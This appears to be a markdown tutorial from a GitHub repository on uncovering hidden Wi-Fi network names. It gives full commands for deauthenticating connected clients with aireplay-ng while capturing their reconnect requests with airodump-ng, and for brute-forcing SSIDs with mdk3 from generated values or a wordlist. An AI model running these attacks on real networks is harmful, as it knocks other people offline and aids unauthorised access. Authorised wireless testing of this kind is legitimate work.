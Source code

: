 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.

## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name.
Run airodump live to see ESSID update:
```
sudo airodump-ng wlan1mon --band agp
```
On a second terminal, deauth target client MAC (`-c`) with AP MAC (`-a`)  (both found in dump):
```
sudo aireplay-ng -0 100 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
Watch live dump to see updated ESSID

## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
sudo mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
sudo mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
sudo mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
